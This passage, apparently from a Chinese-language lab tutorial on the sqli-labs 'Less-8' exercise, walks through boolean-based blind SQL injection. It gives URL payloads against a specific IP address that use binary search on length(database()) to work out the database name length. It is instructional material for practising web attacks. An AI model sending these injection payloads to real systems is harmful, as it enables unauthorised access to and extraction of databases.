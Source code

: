 >http://39.98.88.18:8080/sql/Less-8/index.php?id=1' and (length(database()))<10--+

![](img/2.7/8.png)

页面返回正常，说明数据库的长度小于10，根据二分法。接下来我们尝试５

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1' and (length(database()))>5--+

![](img/2.7/9.png)

发现页面返回成功，说明当前数据库的长度在5-10之间。然后依次继续尝试，最后我们得出数据库的长度为８位

![](img/2.7/10.png)
